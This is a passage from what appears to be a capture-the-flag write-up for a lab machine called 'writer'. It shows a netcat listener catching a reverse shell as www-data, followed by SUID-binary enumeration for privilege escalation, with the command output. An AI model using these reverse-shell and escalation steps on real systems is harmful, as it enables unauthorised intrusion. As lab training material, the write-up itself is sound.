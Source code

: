 ```bash
❯ nc -nlvp 9000 
```

```ruby
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.101] 53140
bash: cannot set terminal process group (1054): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ 
```

## Post-exploitation (OPTION 1)

-  Find SUID

```bash
www-data@writer:/tmp$ find / -perm -4000 2>/dev/null
```

```ruby
/snap/snapd/12704/usr/lib/snapd/snap-confine
/snap/snapd/12398/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/at
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount
```
